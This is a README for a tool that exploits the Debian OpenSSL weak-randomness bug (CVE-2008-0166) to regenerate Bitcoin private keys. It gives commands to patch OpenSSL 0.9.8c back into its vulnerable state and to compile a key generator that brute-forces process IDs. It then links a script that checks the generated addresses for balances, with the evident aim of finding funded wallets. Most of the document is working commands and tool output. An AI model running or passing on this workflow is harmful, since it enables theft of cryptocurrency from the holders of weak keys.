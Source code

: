 # Vulnerable to Debian OpenSSL bug (CVE-2008-0166)

---

* Tutorial: https://youtu.be/zHkXups2I8k
* Tutorial: https://cryptodeep.ru/vulnerable-openssl

---

# Commands:

    git clone https://github.com/demining/CryptoDeepTools.git

    cd CryptoDeepTools/05VulnerableOpenSSL/

    apt-get update

    sudo apt-get install g++ -y

    sudo apt-get install libgmp3-dev libmpfr-dev -y

    wget https://mirror.math.princeton.edu/pub/openssl/source/old/0.9.x/openssl-0.9.8c.tar.gz

    tar xfz openssl-0.9.8c.tar.gz

    mv openssl-0.9.8c openssl-0.9.8c-vuln

    cd openssl-0.9.8c-vuln

    ls -lh

    patch -p1 <../make-OpenSSL-0-9-8c-vulnerable-again.diff

    ./Configure linux-x86_64 shared no-ssl2 no-ssl3 no-comp no-asm

    make depend all

    cd /

    ls

    cd content/CryptoDeepTools/05VulnerableOpenSSL/

    ls -lh


# Compilation:

    gcc -o cryptodeepbtcgen cryptodeepbtc.c -I./openssl-0.9.8c-vuln/include -L./openssl-0.9.8c-vuln -lssl -lcrypto

    ls -lh


RUN:

    LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -h


Version 0.1.2 (le64)

Usage:

-p n-m		Brute Force between PID n-m [default 0-32768]

-n <num>	Create num number of keys per PID [default: 10]

-l		Show all supported BTC versions

-v <prog>	Which BTC version to run (Try -l to find number) [0-43]

-x		Skip Self-Check



    LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -l



#0   - 0.3.24

#1   - 0.8.6-d

#2   - 0.8.6-qt

#3   - 0.9.1-d

#4   - 0.9.4-d

#5   - unknownA

#6   - unknownB

#7   - unknownC

e.t.c
e.t.c


    LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -n 32 -v 0 >> result.txt


Next, it remains to check all the generated Bitcoin Addresses for the presence of BTC coins, for this we can use a python script:  [bitcoin-checker.py](https://github.com/demining/CryptoDeepTools/blob/main/03CheckBitcoinAddressBalance/bitcoin-checker.py)


---

* Tutorial: https://youtu.be/zHkXups2I8k
* Tutorial: https://cryptodeep.ru/vulnerable-openssl

---







|  | Donation Address |
| --- | --- |
| ♥ __BTC__ | 1Lw2gTnMpxRUNBU85Hg4ruTwnpUPKdf3nV |
| ♥ __ETH__ | 0xaBd66CF90898517573f19184b3297d651f7b90bf |
